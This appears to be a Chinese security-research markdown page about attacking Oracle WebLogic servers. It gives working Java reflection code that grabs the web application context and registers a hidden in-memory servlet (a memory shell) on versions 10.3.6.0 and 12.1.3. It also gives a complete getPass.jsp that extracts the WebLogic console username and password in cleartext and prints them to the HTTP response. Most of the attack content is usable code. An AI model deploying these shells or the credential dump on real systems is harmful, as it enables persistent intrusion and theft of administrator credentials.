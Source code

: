 
## 漏洞利用

### 内存马

#### 获取上下文 WebAppServletContext

- WebAppServletContext

```java
Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
Method getCurrentWork = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = getCurrentWork.invoke(Thread.currentThread());
WebAppServletContext webAppServletContext;
try { 
	// weblogic 12.1.3
	Field connectionHandler = currentWork.getClass().getDeclaredField("connectionHandler");
	connectionHandler.setAccessible(true);
	Object httpConnectionHandler = connectionHandler.get(currentWork);
	Field requestF = httpConnectionHandler.getClass().getDeclaredField("request");
	requestF.setAccessible(true);
	httpConnectionHandler = requestF.get(httpConnectionHandler);
	java.lang.reflect.Field contextF = httpConnectionHandler.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(httpConnectionHandler);
} catch (Exception e) {
	// weblogic 1036
	Field contextF = currentWork.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(currentWork);
}
```

#### 动态注册Servlet内存马  

跟了一下从web.xml添加servet的流程，可以使用registerServlet方法注册Servlet，不过不同版本的weblogic对该方法有不同实现:

##### 10.3.6.0
![image](https://user-images.githubusercontent.com/55024146/143993515-f149070e-9ea0-487b-8dbf-fcb8f1682fcd.png)


成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()

![image](https://user-images.githubusercontent.com/55024146/143996030-4614d0d7-e77f-47e6-8540-ec40f41dc296.png)



反射调用
```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class, Map.class);
registerServlet.setAccessible(true);
HashMap hashMap = new HashMap();
registerServlet.invoke(webAppServletContext, "TestServlet", "/abcd", servletClass.getName(), hashMap);
```
测试效果

![image](https://user-images.githubusercontent.com/55024146/143996228-773c6cf8-c801-4068-bcd9-8ce03e016de2.png)


##### 12.1.3.0.0

成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()
![image](https://user-images.githubusercontent.com/55024146/143996176-db4ea7f0-568b-492e-b20a-07ef8727f29c.png)


同样的，反射调用

```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class);
registerServlet.setAccessible(true);
registerServlet.invoke(webAppServletContext, "TestServlet", "/121300", servletClass.getName());
response.getWriter().write("Servlet Injected Successfully!!!");
```

测试效果

![image](https://user-images.githubusercontent.com/55024146/143996258-5aef7689-b745-4273-95b8-e2f74776bb01.png)



#### 动态注册Listener内存马  


#### 动态注册Filter内存马  

##### 10.3.6.0

测试效果

![image](https://user-images.githubusercontent.com/55024146/144036760-4c29b12c-2b28-4270-a82b-7c812e2f7922.png)



##### 12.1.3.0.0

测试效果

![image](https://user-images.githubusercontent.com/55024146/144036974-997a4c40-c302-4c21-8770-e8581b6a9104.png)





### 获取Weblogic console用户名&密码(免解密)-getPass.jsp

以往遇上weblogic的站点时都是通过密钥进行解密获取console的密码，甚至但是解密方法就出现好几种，

![image](vulnerability-research.assets/144720808-7e3efafd-8126-4994-bd78-945e314ff3ac.png)

但是前几个小时在twitter @jas502n师傅公开了[Use T3 protocol Get weblogic console username, password](https://twitter.com/jas502n/status/1467122190760177664)这个姿势，于是赶紧学习学习！！！


断点看看代码细节：

![image](vulnerability-research.assets/144720899-5b80c842-e6dd-47c2-b2fc-e3c60ba2a8f5.png)

代码实现

> ```jsp
> <%@page import="java.lang.reflect.Field" %>
> <%@page import="java.lang.reflect.Method" %>
> 
> <%
>   /**
>    * 已测试：
>    *  10.3.6.0
>    */
>   try{
>     ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
>     Class httpDataTransferHandler = classLoader.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
>     Class managementService = classLoader.loadClass("weblogic.management.provider.ManagementService");
>     Class authenticatedSubject = classLoader.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
>     Class propertyService = classLoader.loadClass("weblogic.management.provider.PropertyService");
>     Field KERNE_ID = httpDataTransferHandler.getDeclaredField("KERNE_ID");
>     KERNE_ID.setAccessible(true);
>     Method getPropertyService = managementService.getMethod("getPropertyService",authenticatedSubject);
>     getPropertyService.setAccessible(true);
>     Object prop = getPropertyService.invoke((Object) null,KERNE_ID.get((Object) null));
>     Method getTimestamp1 = propertyService.getMethod("getTimestamp1");
>     getTimestamp1.setAccessible(true);
>     Method getTimestamp2 = propertyService.getMethod("getTimestamp2");
>     getTimestamp2.setAccessible(true);
>     String username = (String) getTimestamp1.invoke(prop);
>     String password = (String) getTimestamp2.invoke(prop);
>     response.getWriter().write( username + "/" + password);
>   }catch (Exception e) {
>     e.printStackTrace();
>   }
> %>
> ```

测试效果

![image](vulnerability-research.assets/144720974-59cb9fd5-65df-4dae-a9f8-fd103719f499.png)

